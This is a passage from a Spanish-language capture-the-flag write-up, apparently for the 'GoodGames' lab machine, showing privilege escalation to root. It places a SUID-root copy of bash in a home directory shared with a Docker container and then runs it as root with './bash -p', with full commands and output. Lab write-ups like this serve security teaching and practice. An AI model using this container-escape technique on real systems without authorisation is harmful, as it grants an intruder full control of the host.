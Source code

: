 
### Privesc To Root

Para escalar privilegios al usuario root podemos hacerlo usando el contenedor, tendremos que hacer lo siguiente:

1. Copiar el binario bash al directorio de augustus (desde la máquina principal)

```bash
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ ls -la
total 1232
drwxr-xr-x 2 augustus augustus    4096 Mar 26 17:42 .
drwxr-xr-x 3 root     root        4096 Oct 19  2021 ..
-rwxr-xr-x 1 augustus augustus 1234376 Mar 26 17:42 bash
lrwxrwxrwx 1 root     root           9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus     220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 augustus augustus    3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 augustus augustus     807 Oct 19  2021 .profile
-rw-r----- 1 root     augustus      33 Mar 26 15:42 user.txt

```

2. Asignarle permisos SUID (desde el contenedor) y cambiar el propietario a root.

```bash
root@3a453ab39d3d:/home/augustus# ls -la
total 1232
drwxr-xr-x 2 1000 1000    4096 Mar 26 16:42 .
drwxr-xr-x 1 root root    4096 Nov  5  2021 ..
lrwxrwxrwx 1 root root       9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000     220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000    3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000     807 Oct 19  2021 .profile
-rwxr-xr-x 1 1000 1000 1234376 Mar 26 16:42 bash
-rw-r----- 1 root 1000      33 Mar 26 14:42 user.txt
root@3a453ab39d3d:/home/augustus# chown root:root bash
root@3a453ab39d3d:/home/augustus# chmod +s bash
root@3a453ab39d3d:/home/augustus# 
```

3. Volver al usuario augustus y ejecutar la bash de forma privilegiada.

```bash
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 26 17:41:39 2023 from 172.19.0.2
augustus@GoodGames:~$ ls -la
total 1232
drwxr-xr-x 2 augustus augustus    4096 Mar 26 17:42 .
drwxr-xr-x 3 root     root        4096 Oct 19  2021 ..
-rwsr-sr-x 1 root     root     1234376 Mar 26 17:42 bash
lrwxrwxrwx 1 root     root           9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus     220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 augustus augustus    3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 augustus augustus     807 Oct 19  2021 .profile
-rw-r----- 1 root     augustus      33 Mar 26 15:42 user.txt
augustus@GoodGames:~$ ./bash -p
bash-5.1# id
```